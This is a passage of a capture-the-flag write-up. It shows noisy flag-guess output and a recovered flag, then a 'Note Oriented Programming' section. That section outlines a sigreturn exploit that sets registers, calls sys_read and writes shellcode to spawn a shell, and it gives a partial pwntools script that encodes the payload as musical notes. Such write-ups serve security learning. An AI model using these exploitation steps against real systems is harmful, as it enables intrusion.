         OOOTOWEGHSOTHTIEINTELLIGENCEISREQUIRED
        OOOSOMEGNTOENTILINTELLIGENCEISREQUIRED
        OOOSCOCGNTHTNTILINTELLIGENCEISREQUIRED
        OOOSONEGNTNCNTICINTELLIGENCEISREQUIRED
        OOOSCOCYNTOTUTICINTELLIGENCEISREQUIRED
        OOOSDUEONCOTLTIOINTELLIGENCEISREQUIRED
        OOOTDUCONTNTLTIDINTELLIGENCEISREQUIRED
        OOOTCMCGNCNTNTITINTELLIGENCEISREQUIRED
        OOOTQYFGNTATNTUEINTELLIGENCEISREQUIRED
        OOOSDUECLTUTNTICINTELLIGENCEISREQUIRED
        OOOTOWCUNTUTNTILINTELIIGENCEISREOUIRED
        OOOTOMSGUTHENTICINTELLIGENCEISREOUIRED
        OOOTOUTGLTOENCUCINTELLIGENCEISREQUIRED
        OOOTOUEUUTNENTICINTELLIGENCEISREQUIRED
        OOOTOMEGUTOENCICINTELLIGENCEISREQUIRED
        OOOTONEGLTUCNTIOINTELLIGENCEISREQUIRED
        OOOTOOEANTSENTICINTELLIGENCEISREQUIRED
        OOOTOUEUUTUELIICINTELLIGENCEISREQUIRED
        OOOTOMCAUTYENCICINTELLIGENCEISREQUIRED
        OOOTOYCCNTYTWTICINTELLIGENCEISREQUIRED
        OOOTOOCANCUTNTICINTELLIGENCEISREQUIRED
        OOOTOMEINIHENTICINTELLIGENCEISREQUIRED
        OOOTOYEUNTYTNTICINTELLIGENCEISREQUIRED
        OOOTOOEUUTHCNTICINTELLIGENCEISREQUIRED
        OOOTOMCULTUTNTIOINTELLIGENCEISREQUIRED
        OOOTOMEYNTUENTICINTELLIGENCEISREQUIRED
        OOOYOMEUMTURMIJCINTELLIGENCEISREQUIRED
        OOOIDMEUMTURWYJCINTELLIGENCEISREQUIRED
        OOOLDMEUMTURWYLCINTELLIGENCEISREQUIRED
        0
        ```
    * Flag
        ```OOOSOMEAUTHENTICINTELLIGENCEISREQUIRED```
### Note Oriented Programming
* Setup the value on the stack and call sys_sigreturn
* After that, eax = 0x3 ebx=0x0 ecx=0x6060654f edx=0x4f4f4f4f cs=0x23 ss=0x2b ds=0x2b
* Now eip is 0x60606565 pointer to "int 0x80" to call sys_read
* Then, write shellcode on the 0x6060654f to get shell
```python=
from __future__ import print_function
import sys
import struct
import hashlib
from pwn import *
# inspired by C3CTF's POW

table = ['A' , 'A#' , 'B' , 'C' , 'C#' , 'D' , 'D#' , 'E' , 'F' , 'F#' , 'G' , 'G#']

def val(x):
        a = table.index(x[:-1])*1.0
        b = float(x[-1])
        return (2.0**(b+a/12.0))*27.5

		
cmd = ["F9","G0"]*0xe
cmd += ["G9","G0"]*0x40
cmd += ["A2","G0","A0","G0"]
cmd += ["G0","G0"]*0xb
cmd += ["A2","F2","A4","A9","E0","A4","G9","E0"]
cmd += ["G0","G0"]
cmd += ["A2","F2","A4","A9","E0","A4","G9","E0"]
cmd += ["G0","G0"]*0x17
cmd += ["G9","G0"]*0x6
```